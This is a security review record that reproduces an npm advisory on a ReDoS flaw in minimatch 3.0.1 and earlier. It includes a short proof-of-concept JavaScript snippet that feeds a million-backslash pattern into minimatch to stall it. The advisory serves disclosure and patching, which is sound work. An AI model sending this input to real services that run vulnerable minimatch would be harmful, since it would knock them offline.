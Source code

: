 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Nick Starke
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/minimatch
Review-Date: '2016-06-20'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>Updated to version 3.0.2 or greater
### Details
Minimatch is a minimal matching utility that works by converting glob expressions into JavaScript `RegExp` objects.  The primary function, `minimatch(path, pattern)` is vulnerable to ReDoS in the `pattern` parameter.  This is because of the regular expression on line 521 of minimatch.js: `/((?:\\{2})*)(\\?)\|/g,`.  The problematic portion of the regex is `((?:\\{2})*)` which matches against `\\`.  A proof of concept is as follows: ``` var minimatch = require(“minimatch”);  // utility function for generating long strings var genstr = function (len, chr) {   var result = “”;   for (i=0; i<=len; i++) {     result = result + chr;   }   return result; }  var exploit = “[!” + genstr(1000000, “\\”) + “A”;  // minimatch exploit. console.log(“starting minimatch”); minimatch(“foo”, exploit); console.log(“finishing minimatch”); ```
<br><br>• Affected Versions: <=3.0.1
<br>• Patched Versions: >=3.0.2
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
